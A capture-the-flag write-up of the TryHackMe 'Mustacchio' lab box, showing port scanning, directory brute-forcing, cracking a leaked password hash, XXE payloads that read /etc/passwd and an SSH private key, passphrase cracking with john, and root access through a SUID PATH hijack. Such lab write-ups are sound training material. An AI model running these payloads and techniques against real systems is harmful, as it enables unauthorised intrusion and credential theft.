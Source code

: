 ```yaml
---
title: 'Tryhackme - Mustaccio Writeup'
description: 'The description of the blog' 
publishedAt: '2023-07-20'
---
```


# Tryhackme - Mustaccio (Easy)
Deploy and compromise the machine!

## Scanning the system
```bash
sudo nmap -sS -sV -p- -oN nmap.initial mustacchio.thm
```
Results:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 14:28 CEST
Nmap scan report for mustacchio.thm (10.10.150.63)
Host is up (0.030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.15 seconds
```
Interesting to see multiple web servers running on a host. Nginx on port 8765 might be interesting because it's not running an a standart port.

## Enumerating Apache 
### Manual enumeration
There doesn't seem to be much going on the website served. It's only html files and robots.txt didn't gain us anything either.

### Bruteforcing directories
Even though I am more curious about nginx running on 8765, i started a dirscan just in case. While this was running, i went on to enumerating nginx.
```bash
gobuster dir -u http://mustacchio.thm -w /opt/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```
/images (Status: 301)
/custom (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
```

## Enumerating nginx
### Manual enumeration
On the home page we're greeted by a admin panel with a login form. It's asking us for a username and password. I looked through the source of the page to check if there was any credentials in there, but no easy win today.

### Bruteforcing directories
There could be a directory that contains some credentials so let's run a quick scan for directories.

```bash
gobuster dir -u http://mustacchio.thm:8765 -w /opt/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```
/assets (Status: 301)
/auth (Status: 301)
```

## Gaining access
While the scan on nginx was running i noticed that the directory scan on apache had finished. I looked through a few of the folders and found a `users.bak` in http://mustacchio.thm/custom/js/.

Running `file users.bak`{lang="bash"} showed that this file contained a SQLite 3 database.
I opened it and extracted a user and password from it.
```bash
sqlite3 users.bak
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4......
```
The password looks like a hash so i quickly ran it through (crackstation)[https://crackstation.net/], this resulted in a password that allowed us to login into the admin panel.

## Exploiting the admin panel
Inside the sourcecode of the admin panel there is the following comment which gives us a username to login to with SSH.
```html
<!-- Barry, you can now SSH in using your key!-->
```

On the panel we can add comments. Submitting normal text just resulted in 3 empty fields being returned. 
```
Name:

Author :

Comment :
```
I looked how the request was made and noticed the name of the post field was `xml`.
I tried some things and the following xml resulted into some of the fields being filled.
```xml
<post>
  <name>Barry</name>
  <author>Barry</author>
  <comment>Hello</comment>
</post>
```
This confirmed to me that there was something parsing xml on the backend.

### Exploting the XML using XXE
I searched up some XXE examples and submitted them in the admin panel.
After a few tries the following returned the contents of `/etc/passwd`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post><name>&xxe;</name></post>
```
So XXE was definitely the way forward. Since we found the comment earlier talking about barry's SSH key, i tried to get his key from his home directory.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<post><name>&xxe;</name></post>
```
This was a success and we now have his (encrypted) private key.

## Getting into SSH
We have a key and we know who it belongs to, so all we need is to find the password of the key. I tried the same password as for the admin panel but no luck there. Let's try to bruteforce it.
I use this stupid workaround to get ssh2john working on my laptop and extract the hash.
```bash
sed 's/decodestring/decodebytes/' /usr/bin/ssh2john | python - key > ssh-hash
```
After that we can crack the hash with john.
```bash
john ssh-hash --wordlist=/opt/wordlists/rockyou.txt
```
This successfully cracks the password and allows us to login to the barry user via SSH.

## Escalating our privileges
I start enumarting the usual stuff on linux systems. Sudo perms, cronjobs, capabilities, SUID binaries, etc.

There is an interesting SUID binary at `/home/joe/live_log`, it's owned by root and it's some sort of executeable.

Executing it and using `strings` we can see that it's running the command `tail -f /var/log/nginx/access.log`. Since it's not using a absolute path we can use the PATH variable to execute our own version of tail.
```bash
barry@mustacchio:~$ cp /bin/bash .
barry@mustacchio:~$ mv bash tail
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=/home/barry/:$PATH
barry@mustacchio:~$ which tail
/home/barry//tail
```

We get absolutely spammed with messages, and can't execute any commands. 
```
/var/log/nginx/access.log: line 14046: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14047: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14048: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14049: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14050: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14051: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14052: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14053: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14054: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14055: 10.14.xxx.139: command not found
```

Let's retry using another binary.
```bash
barry@mustacchio:~$ cp /usr/bin/vim .
barry@mustacchio:~$ mv vim tail
barry@mustacchio:~$ chmod +x tail
```
This time we simply get the log file opened in vim and we can open a shell by typing `:!bash`.
```
root@mustacchio:~# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
```

## Conclusion
This was a nice and easy box. The route was quite clear along the way, and we could easily escalate our privileges using the PATH variable.
